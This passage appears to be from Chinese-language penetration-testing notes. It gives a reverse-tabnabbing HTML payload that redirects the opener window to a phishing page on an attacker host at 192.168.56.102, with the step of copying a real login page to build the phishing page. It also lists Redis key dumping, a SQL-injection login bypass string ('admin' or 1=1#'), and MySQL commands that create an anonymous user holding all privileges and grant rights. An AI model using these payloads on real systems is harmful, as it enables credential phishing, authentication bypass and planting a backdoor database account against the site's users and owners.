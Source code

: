 创建恶意链接页面

```shell
<!DOCTYPE html> 
<html> 
<body> 
<script> 
    if(window.opener) window.opener.parent.location.replace('http://192.168.56.102:1234/index.html'); 
    if(window.opener != window) window.opener.parent.location.replace('http://192.168.56.102:1234/index.html'); 
</script> 
</body> 
</html>
```

创建钓鱼登陆页面（复制登陆页面的源码）

```shell
复制登陆页面的源码创建一个html页面
```

# redis 6379

```
查询数据库中有哪些key
keys *


查询指定key的value值
get <key_name>
```
# mysql 3306

![[../Pasted image 20250514191623.png]]

默认端口：3306

万能密码：
​    
```shell
admin' or 1=1#\123456
```

#### MySQL 匿名

```
添加匿名用户
mysql> CREATE USER ”@”;
mysql>GRANT USAGE ON *.* TO ”@” WITH GRANT OPTION;
mysql> GRANT ALL PRIVILEGES ON *.* TO ”@”;
mysql>FLUSH PRIVILEGES;
```
